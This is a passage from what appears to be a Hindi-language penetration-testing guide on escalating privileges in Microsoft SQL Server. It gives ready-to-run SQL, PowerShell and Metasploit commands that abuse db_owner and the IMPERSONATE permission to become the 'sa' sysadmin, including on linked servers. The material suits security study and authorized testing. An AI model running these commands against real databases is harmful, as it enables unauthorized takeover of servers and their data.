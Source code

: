 ```bash
# https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Invoke-SqlServer-Escalate-Dbowner.psm1
Import-Module .Invoke-SqlServerDbElevateDbOwner.psm1
Invoke-SqlServerDbElevateDbOwner -SqlUser myappuser -SqlPass MyPassword! -SqlServerInstance 10.2.2.184
```
### अन्य उपयोगकर्ताओं की पहचान लेना

SQL Server के पास एक विशेष अनुमति है, जिसका नाम **`IMPERSONATE`** है, जो **निष्पादन कर रहे उपयोगकर्ता को किसी अन्य उपयोगकर्ता या login की अनुमतियों को ग्रहण करने की अनुमति देती है**, जब तक कि context reset न हो या session समाप्त न हो।
```sql
# Find users you can impersonate
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
# Check if the user "sa" or any other high privileged user is mentioned

# Impersonate sa user
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')

# If you can't find any users, make sure to check for links
enum_links
# If there is a link of interest, re-run the above steps on each link
use_link [NAME]
```
> [!TIP]
> यदि आप किसी user का impersonate कर सकते हैं, भले ही वह sysadmin न हो, तो आपको जांचना चाहिए कि **user के पास access है** अन्य **databases** या linked servers तक।

ध्यान दें कि एक बार जब आप sysadmin बन जाते हैं, तो आप किसी भी अन्य को impersonate कर सकते हैं:
```sql
-- Impersonate RegUser
EXECUTE AS LOGIN = 'RegUser'
-- Verify you are now running as the the MyUser4 login
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
-- Change back to sa
REVERT
```
आप यह हमला एक **metasploit** module के साथ कर सकते हैं:
```bash
msf> auxiliary/admin/mssql/mssql_escalate_execute_as
```
या एक **PS** script के साथ:
```bash
# https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Invoke-SqlServer-Escalate-ExecuteAs.psm1
Import-Module .Invoke-SqlServer-Escalate-ExecuteAs.psm1
Invoke-SqlServer-Escalate-ExecuteAs -SqlServerInstance 10.2.9.101 -SqlUser myuser1 -SqlPass MyPassword!
```
## Using MSSQL for Persistence
